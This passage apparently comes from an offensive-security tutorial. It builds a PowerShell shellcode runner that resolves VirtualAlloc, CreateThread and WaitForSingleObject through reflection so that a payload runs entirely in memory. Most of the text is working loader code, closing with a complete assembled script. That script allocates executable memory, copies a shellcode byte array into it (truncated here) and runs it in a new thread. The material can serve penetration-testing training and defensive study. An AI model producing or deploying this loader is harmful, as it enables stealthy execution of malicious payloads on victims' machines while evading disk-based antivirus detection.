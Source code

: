 ## Execution phase
With the power of the reflection technique in PowerShell, we now have the ability to invoke Win32 APIs from code that executes entirely in memory.

We are going to call three different Win32 APIs (_VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_), we'll rewrite the portion of code that creates the delegate type into a function so we can easily call it multiple times.

We start by optimizing our previous code where we define arguments and data types:
```Powershell
function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}
```

Now, we start with calling the VirtualAlloc function, traditionally, the calling of the function would look something like this:
```Powershell
$VirtualAllocAddr = LookupFunc kernel32.dll VirtualAlloc
$VirtualAllocDelegateType = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegateType)
$VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
```

However, we optimize it like so:
```Powershell
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
```


The shellcode part of our code will be the same as before:
```Powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
```

Next step, optimize the call of CreateThread function:
```Powershell
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
```

Finally, we Invoke the function:
```Powershell
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

Our Complete code will look like so:
```Powershell
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

